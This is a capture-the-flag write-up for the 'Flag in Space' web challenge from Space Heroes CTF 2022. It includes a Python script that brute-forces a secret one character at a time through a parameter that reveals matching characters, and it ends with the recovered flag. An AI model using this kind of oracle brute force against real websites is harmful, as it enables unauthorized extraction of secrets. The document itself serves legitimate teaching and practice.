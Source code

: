 # Space Heroes CTF 2022 - Flag in Space (web)

The challenge provides us with a link.

![Challenge link](./img/chall.png "Challenge link")

Clicking on the link brings us to page with some black squares. 

![Challenge page](./img/chall_page.png "Challenge page")

I noticed that there is a GET parameter called `flag` in the URL. So I tried to put in the flag format `shctf{`, to see what happens. It turns out that the letters are then shown in the black squares.

![Initial testing](./img/test.png "Initial testing")

From this, we can assume that the characters in the `flag` parameter that match the flag will be displayed on the site. Thus, we can try to bruteforce the flag. We start by appending a single character to `shctf{`, trying all possible characters, and then checking whether the website display matches the input. I wrote a python script to do so: 

```python
import requests

base_url = "http://172.105.154.14/?flag="
flag = "shctf{"

while len(flag) < 25:
	for guess in range(33, 127):

		nextchar = chr(guess)
		response = requests.get(base_url + flag + nextchar).text

		# get <div> where flag is displayed
		start = response.find("<div id=\"grid\"")

		# extract characters shown
		body = response[start + 16:-7].replace("<div>","").replace("</div>","")
		result = "".join(body.split())

		# check if website output matches input
		if (result == flag + nextchar):
			
			# update flag
			flag += nextchar
			print(flag)
			break
```

Running the script, gives use the flag.

![Flag](./img/flag.png "Flag")
> shctf{2_explor3_fronti3r}